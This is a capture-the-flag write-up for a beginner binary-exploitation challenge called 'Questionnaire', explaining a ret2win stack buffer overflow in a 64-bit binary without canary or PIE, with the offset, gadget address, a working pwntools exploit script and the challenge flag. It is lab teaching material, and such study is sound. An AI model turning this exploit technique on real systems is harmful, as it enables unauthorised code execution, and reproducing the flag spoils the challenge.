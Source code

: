 # Questionnaire
> Write-up author: vreshco
## DESCRIPTION:
It's time to learn some things about binaries and basic c. Connect to a remote server and answer some questions to get the flag.
## HINT:
- NONE
## STEPS:
1. Given 2 files, 64 bit binary file and it's source-code.
2. Check the binary's protections.

> VULN -> No Canary Found , No PIE.

![image](https://user-images.githubusercontent.com/70703371/233819788-6503c6ac-da9d-4833-b730-95b22f676043.png)


3. Let's analyze the source-code.

![image](https://user-images.githubusercontent.com/70703371/233819810-96a27b41-dd9c-4491-ac4e-c67171705697.png)


4. It's a simple **ret2win** challenge, where the buffer variable holds 32 as it's buffer but the fgets() specified that the user can enter up to 256 bytes.
5. We can use this to control the RIP to change the return address to the `gg()` to get the flag.
6. Let's find the RIP offset.

![image](https://user-images.githubusercontent.com/70703371/233819942-2b2a5f49-fdf3-486f-a7f3-2ad9e941663b.png)


7. Got the offset at 40, let's grab the `gg()` address and **ret;** gadget to align payload we're sending.

![image](https://user-images.githubusercontent.com/70703371/233819977-1711d888-1139-4a6e-878b-1a63f0b2a939.png)


![image](https://user-images.githubusercontent.com/70703371/233819987-79c09206-c2da-41cc-8a07-6a1d70c00260.png)


> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './test'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

sh = start()

ret = 0x000000000040101a

padding = 40

p = flat([
    asm('nop') * padding,
    ret,
    0x401176
])

sh.sendline(p)

sh.interactive()
```

> LOCALLY

![image](https://user-images.githubusercontent.com/70703371/233820011-ce4369bf-8007-43a1-a5e7-c034b79618b1.png)


8. Great! We jumped there, let's run it remotely.

![image](https://user-images.githubusercontent.com/70703371/233820095-f065f9be-a8ba-41e5-a77c-27c84bf60f5d.png)


9. It's a question, so we don't get the flag by sending our payload (?)
10. Let's answer all of it.

![image](https://user-images.githubusercontent.com/70703371/233820132-3d107f14-bb02-41af-9518-20e966030416.png)


![image](https://user-images.githubusercontent.com/70703371/233820136-673156e0-c717-448f-8ebb-1f122438c59b.png)


![image](https://user-images.githubusercontent.com/70703371/233820143-902fe3a2-fd67-4215-a471-a6f064367d91.png)


![image](https://user-images.githubusercontent.com/70703371/233820150-cd60efa2-5967-41e4-ba1b-e871ef44ab42.png)


![image](https://user-images.githubusercontent.com/70703371/233820160-aeb5b82a-ea4c-441f-9222-a5f4eb23fffc.png)


![image](https://user-images.githubusercontent.com/70703371/233820168-9dd0c761-dcf7-40f1-91a8-dd1c2ad6ed30.png)


![image](https://user-images.githubusercontent.com/70703371/233820175-1414f007-25a0-4442-ba30-53cad472467a.png)


![image](https://user-images.githubusercontent.com/70703371/233820187-a4ac97c6-6b4c-4860-a4c2-137f71fb01de.png)


![image](https://user-images.githubusercontent.com/70703371/233820192-03f3a0d0-06de-4303-b972-401c60c18fe0.png)


![image](https://user-images.githubusercontent.com/70703371/233820200-26db9b4b-f756-4b31-8a7d-9f86bf50dae3.png)


11. Got the flag!

## FLAG

```
HTB{l34rn_th3_b451c5_b3f0r4_u_5t4rt}
```



